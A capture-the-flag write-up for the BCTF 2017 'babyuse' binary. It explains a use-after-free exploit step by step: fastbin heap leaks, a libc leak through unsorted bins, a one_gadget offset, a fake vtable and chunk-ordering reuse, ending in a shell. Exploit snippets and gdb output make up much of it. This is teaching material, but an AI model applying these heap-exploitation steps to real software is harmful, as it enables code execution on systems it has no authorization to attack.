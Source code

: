 ## BCTF 2017 - Babyuse

### Requirements:

- Find the vulnerability (Use-After-Free)
- An address on the heap to store the fake vtable.
- The address of libc to find the what should inside the fake vtable.
- On the heap: fake vtable, an object with the fake vtable address as the name.
- Create the chunck with specific size and order to get control of them.

### Leak the address in the heap

1. Let's use pwngdb to print the base address of heap

	```
	Code:
	     buy(10, "AAAABBBB") #Index 0
 	     gdb.attach(p)
	Gdb: 
		 (gdb) heap
		 heapbase : 0x5655a000
	```
	
2. Because of the Use-After-Free vulnerability in the `drop()` function, we need to what's the address means when we leak it. Besides, when we use the `rename()` function **it will release the old name chunck and apply a new name chunck**. Plus the attribute of the fastbin, when we drop the object with the new name, the name chunck will return to the fastbin and add to the first of the link list. The result of this is that, when we call the `use()` function the first line of the output is the name of the gun, but this is the new name of the gun, when we drop the gun, the new name chunck will be released and the `FD` pointer will point to old name chunck. So, we can print the address from the heap.

3. To find the address of the chunck, let's put the breakpoint after the `drop()` function and print the heapinfo.

	```
	(gdb) heapinfo
	(0x10)fastbin[0]: 0x5655ea30 --> 0x5655ea20 --> 0x0
	(0x18)fastbin[1]: 0x5655ea08 --> 0x0
	```
 - This is the result after the free, `0x5655ea08` is the address of the object, `0x5655ea20` is the old name chunk and `0x5655ea30` is the new name chunck.

 - After `buy()`, it will apply for a chunck to store the name. 

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x41414141	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x000205d1	0x00000000	0x00000000
	0x5655ea40:	0x00000000	0x00000000	0x00000000	0x00000000
	```

 - Then, the `rename()` will apply a new chunck to store the new name and free the old name chunck back to the fastbin.

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x00000011	0x43434343	0x44444444 <-- new name
	0x5655ea40:	0x00000000	0x000205c1	0x00000000	0x00000000
	```

 - After the `drop()`, the program will also free the new name chunck and this will connect with the old name chunck which is the same size. So, the `FD` pointer in the new name chunck will contains the address of the old name chunck.

	```
	(gdb) x/20x 0x5655ea20
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <-- old name
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <-- new name
	0x5655ea40:	0x00000000	0x000205c1	0x00000000	0x00000000
	```

### Leak the `execv()` function address in libc.so.6

1. Because the libc.so.6 file is provided by the challenge, we can find the address of the `execv()` function in it and put the address in a fake vtable of the class and call it. So, the first step is to leak the base address of libc. 

2. To leak something of libc, we need to apply the memory from the **main_arena**, which means we need to create two long name objects and free the first chunck then use it.

	```
	#Secend UAF, leak the libc
	buy(256, "AAAABBBB") #Index 0
	buy(256, "CCCCDDDD") #Index 1
	select(0)
	drop(0)
	libcleak = u32(use())
	```	
**Q: Why we need to create the second chunck? (unsortbin struct) A: Avoid consolidation with the top chunk**

3. Then, we need to do some math to calculate the base address of libc then plus the offset of `execv()` to make our payload. Because the function address in libc is fixed, we can directly print the base address of libc locally and calculate the offset between the address we leak and the base address of libc.

	```
	Code result:
	[+] Starting local process './babyuse': pid 9737
	Heap Leak: 0x5655ea20
	Libc Leak: 0xf7e3f7b0
	(gdb) libc
	libc : 0xf7c8d000
	```
	We can find the offset is `hex(0xf7e3f7b0 - 0xf7c8d000) = 0x1b27b0`
	
4. At last, we need to find the offset of `execv()` address in libc. Address of `execv()` = Leaked address of libc - offset of base address. We can use the tool `one_gadget` to find the magic gadget in libc.
 
	```
	one_gadget -f libc.so 
	
	0x3ac69	execve("/bin/sh", esp+0x34, environ)
	constraints:
	  esi is the GOT address of libc
	  [esp+0x34] == NULL
	  
	0x5fbc5	execl("/bin/sh", eax)
	constraints:
	  esi is the GOT address of libc
	  eax == NULL
  
	0x5fbc6	execl("/bin/sh", [esp])
	constraints:
	  esi is the GOT address of libc
	  [esp] == NULL
	```

5. We will use the first gadget found by one_gadget and the offset is 0x3ac69. So we can calculate the address in payload: `libcleak - 0x1b27b0 + 0x3ac69`

	```
	[+] Starting local process './babyuse': pid 9737
	Heap Leak: 0x5655ea20
	Libc Leak: 0xf7e3f7b0
	Libc Base: 0xf7c8d000
	One_gadget 0xf7cc7c69
	[*] Stopped process './babyuse' (pid 9737)
	```
	
### Craft the fake vtable and intent object

1. We need to craft the payload with the one_gadget address as a name of a gun. Put the payload on the heap.

	```
	vtable = p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr)
	buy(32, vtable) #Index 0
	buy(32, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA") #Index 2
	buy(32, "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB") #Index 3
	```
	Then, what's the heap look like?
	
	```	
	0x5655ea10:	0x00000000	0x5655ea48	0x0000000f	0x0000000f <- 1st UAF gun object
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <- 1st UAF old name chunck we used
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <- 1st UAF new name chunck we used
	0x5655ea40:	0x00000000	0x00000029	0xf7cc7c69	0xf7cc7c69 <- 3rd UAF gun 0 name Start of our payload
	0x5655ea50:	0xf7cc7c69	0xf7cc7c69	0xf7cc7c69	0x00000000
	0x5655ea60:	0x00000000	0x00000000	0x00000000	0x00000019
			  	vtable	   	name
	0x5655ea70:	0x56556d30	0x5655ea88	0x0000000f	0x0000000f <- 3rd UAF gun 2 object
	0x5655ea80:	0x00000000	0x00000029	0x41414141	0x41414141 <- 3rd UAF gun 2 name
	0x5655ea90:	0x41414141	0x41414141	0x41414141	0x41414141
	0x5655eaa0:	0x41414141	0x41414141	0x00000000	0x00000019
			  	vtable	   	name
	0x5655eab0:	0x56556d30	0x5655eac8	0x0000000f	0x0000000f <- 3rd UAF gun 3 object
	0x5655eac0:	0x00000000	0x00000029	0x42424242	0x42424242 <- 3rd UAF gun 3 name
	0x5655ead0:	0x42424242	0x42424242	0x42424242	0x42424242
	0x5655eae0:	0x42424242	0x42424242	0x00000000	0x00000061
		...
	0x5655eb50:	0x56556d30	0x5655eb68	0x0000000f	0x0000000f <- 2nd UAF gun object
	0x5655eb60:	0x00000000	0x00000109	0x43434343	0x44444444 <- 2nd UAF gun 1 name
	0x5655eb70:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb80:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb90:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eba0:	0x00000000	0x00000000	0x00000000	0x00000000
	```

2. Second, we need to free those objects by a specific order. (0->2->3). This order will cause the reverse order in the fastbins link list (3->2->0). So, next time when we apply a short name gun(less than 20->size of gun object), it will use the gun 3's object space of the new object and gun 2's object space for the name.

	```
	payload = p32(heapdest) + p32(heapdest)
	buy(16, payload)
	```
	
	The name of the new object is our payload, which contains the fake vtable address(what we find in the memory `0x5655ea40:	0x00000000	0x00000029	0x00000000	0xf7cc7c69`). So, when we fourth use the UAF to trigger the `use()` function, it will look through the fake vtable and wait for our option(this time is 2 or 3, which is the second function in the vtable, because the first one got replace by `free()`).
	`vtable: vtable = p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr) + p32(onegaddr)`
	
	```
	0x5655ea10:	0x00000000	0x5655ea48	0x0000000f	0x0000000f <- 1st UAF gun object
	0x5655ea20:	0x00000000	0x00000011	0x00000000	0x42424242 <- 1st UAF old name chunck we used
	0x5655ea30:	0x00000000	0x00000011	0x5655ea20	0x44444444 <- 1st UAF new name chunck we used
	0x5655ea40:	0x00000000	0x00000029	0x00000000	0xf7cc7c69 <- 3rd UAF gun 0 name Start of our payload
	0x5655ea50:	0xf7cc7c69	0xf7cc7c69	0xf7cc7c69	0x00000000
	0x5655ea60:	0x00000000	0x00000000	0x00000000	0x00000019
	0x5655ea70:	0x5655ea4c	0x5655ea4c	0x00000000	0x0000000f <- 4th gun name (3rd UAF gun 2 object)
	0x5655ea80:	0x00000000	0x00000029	0x5655ea40	0x41414141 <- 3rd UAF gun 2 name
	0x5655ea90:	0x41414141	0x41414141	0x41414141	0x41414141
	0x5655eaa0:	0x41414141	0x00000041	0x00000000	0x00000019
			  vtable	   name
	0x5655eab0:	0x56556d30	0x5655ea70	0x0000000f	0x0000000f <- 4th UAF gun object (3rd UAF gun 3 object)
	0x5655eac0:	0x00000000	0x00000029	0x5655ea80	0x42424242 <- 3rd UAF gun 3 name
	0x5655ead0:	0x42424242	0x42424242	0x42424242	0x42424242
	0x5655eae0:	0x42424242	0x00000042	0x00000000	0x00000061
		...
	0x5655eb50:	0x56556d30	0x5655eb68	0x0000000f	0x0000000f <- 2nd UAF gun object
	0x5655eb60:	0x00000000	0x00000109	0x43434343	0x44444444 <- 2nd UAF gun 1 name
	0x5655eb70:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb80:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eb90:	0x00000000	0x00000000	0x00000000	0x00000000
	0x5655eba0:	0x00000000	0x00000000	0x00000000	0x00000000
	```
	
### Trigger the vulnerability
The last step, we can use our script the trigger!
	```
	./exploit.py 
	[+] Starting local process './babyuse': pid 41084
	Heap Leak: 0x5655ea20
	Libc Leak: 0xf7e3f7b0
	Libc Base: 0xf7c8d000
	One_gadget 0xf7cc7c69
	[*] Switching to interactive mode
	$ 2
	$ id
	uid=1000(kevin) gid=1000(kevin) groups=1000(kevin)
	```
